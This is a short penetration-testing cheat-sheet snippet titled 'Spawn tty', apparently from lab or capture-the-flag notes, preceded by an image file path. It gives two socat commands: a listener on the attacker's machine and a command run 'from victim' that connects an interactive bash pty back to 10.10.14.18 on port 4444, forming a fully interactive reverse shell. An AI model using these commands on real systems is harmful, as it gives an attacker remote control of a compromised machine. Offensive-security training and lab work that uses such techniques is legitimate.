 Spawn tty

listener on your machine:
socat file:``tty``,raw,echo=0 tcp-listen:4444 

connect from victim
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.18:4444 

